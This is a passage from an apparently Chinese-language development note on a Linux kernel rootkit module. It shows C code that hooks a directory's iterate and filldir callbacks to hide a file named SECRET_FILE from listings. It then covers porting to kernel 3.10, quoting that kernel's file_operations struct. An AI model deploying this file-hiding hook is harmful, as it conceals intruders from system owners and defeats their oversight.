 ~~~c
    } while (0
set_file_op(iterate, ROOT_PATH, fake_iterate, real_iterate);
int
fake_iterate(struct file *filp, struct dir_context *ctx)
{
    real_filldir = ctx->actor;
    fm_alert("real_filldir is %p", real_filldir);
    *(filldir_t *)&ctx->actor = fake_filldir;
    fm_alert("fake_filldir is %p", fake_filldir);
    return real_iterate(filp, ctx);
}


int
fake_filldir(struct dir_context *ctx, const char *name, int namlen,
             loff_t offset, u64 ino, unsigned d_type)
{
    fm_alert("getting: %s", name);
    if (strcmp(name, SECRET_FILE) == 0) {
        fm_alert("Hiding: %s", name);
        return 0;
    }    
    return real_filldir(ctx, name, namlen, offset, ino, d_type);
}
~~~

### 问题四：低版本不存在iterate结构体成员

​	高低版本的适配问题，在EulerOS上因为使用3.10的Linux内核，所以在编译时导致报错，因为代码中的`struct file_operations ` 结构体中并不包含`iterate`成员。

### 解决方案

​	通过看3.10的内核源码可以发现，其实存在一个相似的函数指针成员readdir,他实现了类似iterate成员的功能：

~~~c
struct file_operations {
	struct module *owner;
	loff_t (*llseek) (struct file *, loff_t, int);
	ssize_t (*read) (struct file *, char __user *, size_t, loff_t *);
	ssize_t (*write) (struct file *, const char __user *, size_t, loff_t *);
	ssize_t (*aio_read) (struct kiocb *, const struct iovec *, unsigned long, loff_t);
	ssize_t (*aio_write) (struct kiocb *, const struct iovec *, unsigned long, loff_t);
	int (*readdir) (struct file *, void *, filldir_t);
	unsigned int (*poll) (struct file *, struct poll_table_struct *);
	long (*unlocked_ioctl) (struct file *, unsigned int, unsigned long);
	long (*compat_ioctl) (struct file *, unsigned int, unsigned long);
	int (*mmap) (struct file *, struct vm_area_struct *);
	int (*open) (struct inode *, struct file *);
	int (*flush) (struct file *, fl_owner_t id);
	int (*release) (struct inode *, struct file *);
	int (*fsync) (struct file *, loff_t, loff_t, int datasync);
	int (*aio_fsync) (struct kiocb *, int datasync);
	int (*fasync) (int, struct file *, int);
	int (*lock) (struct file *, int, struct file_lock *);
	ssize_t (*sendpage) (struct file *, struct page *, int, size_t, loff_t *, int);
	unsigned long (*get_unmapped_area)(struct file *, unsigned long, unsigned long, unsigned long, unsigned long);
	int (*check_flags)(int);
	int (*flock) (struct file *, int, struct file_lock *);
	ssize_t (*splice_write)(struct pipe_inode_info *, struct file *, loff_t *, size_t, unsigned int);
	ssize_t (*splice_read)(struct file *, loff_t *, struct pipe_inode_info *, size_t, unsigned int);
~~~